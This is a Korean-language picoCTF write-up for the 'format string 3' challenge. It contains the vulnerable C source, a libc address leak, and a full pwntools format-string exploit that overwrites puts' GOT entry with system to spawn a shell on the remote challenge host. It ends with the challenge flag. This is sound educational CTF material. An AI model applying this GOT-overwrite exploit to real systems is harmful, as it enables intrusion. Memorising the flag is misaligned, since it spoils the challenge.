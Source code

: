 # [format string 3](https://play.picoctf.org/practice/challenge/449?category=6&originalEvent=73&page=1)

**Description**
> This program doesn't contain a win function. How can you win?
<br />

**Source Code:**
```c
#include <stdio.h>

#define MAX_STRINGS 32

char *normal_string = "/bin/sh";

void setup() {
        setvbuf(stdin, NULL, _IONBF, 0);
        setvbuf(stdout, NULL, _IONBF, 0);
        setvbuf(stderr, NULL, _IONBF, 0);
}

void hello() {
        puts("Howdy gamers!");
        printf("Okay I'll be nice. Here's the address of setvbuf in libc: %p\n", &setvbuf);
}

int main() {
        char *all_strings[MAX_STRINGS] = {NULL};
        char buf[1024] = {'\0'};

        setup();
        hello();

        fgets(buf, 1024, stdin);
        printf(buf);

        puts(normal_string);

        return 0;
}
```
<br />

**Binary Protections:**
```yaml
format-string-3: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter./ld-linux-x86-64.so.2,
for GNU/Linux 3.2.0, BuildID[sha1]=54e1c4048a725df868e9a10dc975a46e8d8e5e92, not stripped

[*] '/home/kali/pico/format_string_3/format-string-3'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        No PIE (0x3ff000)
    RUNPATH:    b'.'
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```
<br />

## Exploitation
문제에서 제공되는 정보 및 취약점을 취합해보면 다음과 같습니다.
```text
1. setvbuf 주소 제공
2. print(buf) 호출 -> FSB 취약점 발생
3. puts("/bin/sh")
4. Partial RELRO
```
취합된 정보를 토대로 공격 과정을 정리하면, 문제에서 제공되는 `setvbuf`의 주소를 통해 `system`의 실제 주소를 계산할 수 있습니다. 바이너리는 Partial RELRO 상태이므로 GOT 조작이 가능합니다. 또한 `print(buf)` 호출 시 FSB 취약점이 발생합니다. 따라서 해당 취약점을 활용하여 `puts`의 GOT 엔트리를 `system`의 주소로 덮어쓴다면, 이후 `puts(normal_string)` 호출이 `system("/bin/sh")`로 이어져 최종적으로 쉘을 획득할 수 있을 것입니다.
<br />
<br />

### 1. `system` 주소 구하기
```bash
$ readelf -s libc.so.6 | grep "setvbuf"
  1300: 000000000007a3f0   608 FUNC    WEAK   DEFAULT   16 setvbuf@@GLIBC_2.2.5
$ readelf -s libc.so.6 | grep "system"
  1511: 000000000004f760    45 FUNC    WEAK   DEFAULT   16 system@@GLIBC_2.2.5
```
위 오프셋을 가지고 `libc_base`, `system` 주소를 계산할 수 있습니다.

```python
from pwn import *

p = process("./format-string-3")

p.recvuntil(b"0x")

libc_base = int(p.recv(14), 16) - 0x7a3f0
libc_system = libc_base + 0x4f760
log.info(f"libc_base: {libc_base: #x}")
log.info(f"libc_system: {libc_system: #x}")

p.interactive()
```
```bash
$ python3 test.py
[+] Starting local process '/home/kali/pico/format_string_3/format-string-3': pid 1111
[*] libc_base:  0x7f255443a000
[*] libc_system:  0x7f2554489760
[*] Switching to interactive mode
$
```
<br />

### 2. 메모리 유출로 오프셋 구하기
```bash
$ ./format-string-3
Howdy gamers!
Okay I'll be nice. Here's the address of setvbuf in libc: 0x7fad387c23f0
AAAAAAAA%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p
AAAAAAAA0x7fad38920963|0xfbad208b|0x7fffc740cbb0|0x1|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|0x4141414141414141
/bin/sh
```
`AAAAAAAA`의 오프셋은 파이썬으로 자동화하여 다음과 같이 구할 수 있습니다.
```python
data = ("AAAAAAAA0x7fad38920963|0xfbad208b|0x7fffc740cbb0|0x1|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|0x4141414141414141")
data = data.split("|")

target = "0x4141414141414141"

if target in data:
    idx = data.index(target)
    print(f"offset: {idx+1}")
```
```bash
$ python3 test.py
offset: 38
```
<br />

### 3. GOT 덮어쓰기
```yaml
pwndbg> got
Filtering out read-only entries (display them with -r or --show-readonly)

State of the GOT of /home/kali/pico/format_string_3/format-string-3:
GOT protection: Partial RELRO | Found 4 GOT entries passing the filter
[0x404018] puts@GLIBC_2.2.5 -> 0x401030 ◂— endbr64
...
```
pwndbg로 확인할 결과 puts의 got 주소는 0x404018입니다. 획득환 정보를 가지고 페이로드를 작성할 수 있습니다.

```python
from pwn import *

context.arch = "amd64"

p = process("./format-string-3")
# p = remote("rhea.picoctf.net", 51563)

p.recvuntil(b"0x")

libc_base = int(p.recv(14), 16) - 0x7a3f0
libc_system = libc_base + 0x4f760
log.info(f"libc_base: {libc_base: #x}")
log.info(f"libc_system: {libc_system: #x}")

pay = fmtstr_payload(38, {0x404018:libc_system})

p.send(pay)
p.interactive()
```
```bash
$ python3 test.py
[+] Starting local process './format-string-3': pid 1336
[*] libc_base:  0x7f89a0dd4000
[*] libc_system:  0x7f89a0e23760
[*] Switching to interactive mode
$
                                                                                               c                              \x8b         \xf0                      \x01                                                                 \x00                                                                                    \x00aaaaba\x18@@$
$ pwd
/home/kali/pico/format_string_3
```
<br />

## FLAG
```bash
$ python3 test.py
[+] Opening connection to rhea.picoctf.net on port 51563: Done
[*] libc_base:  0x7a9afecb0000
[*] libc_system:  0x7a9afecff760
[*] Switching to interactive mode
$
                                                                                               c                         \x8b                                                                                    \x01                                       \x00      \x00aaaabaa\x18@@$
$ ls
Makefile
artifacts.tar.gz
flag.txt
format-string-3
format-string-3.c
ld-linux-x86-64.so.2
libc.so.6
metadata.json
profile
$ cat flag.txt
picoCTF{G07_G07?_7a2369d3}$
```
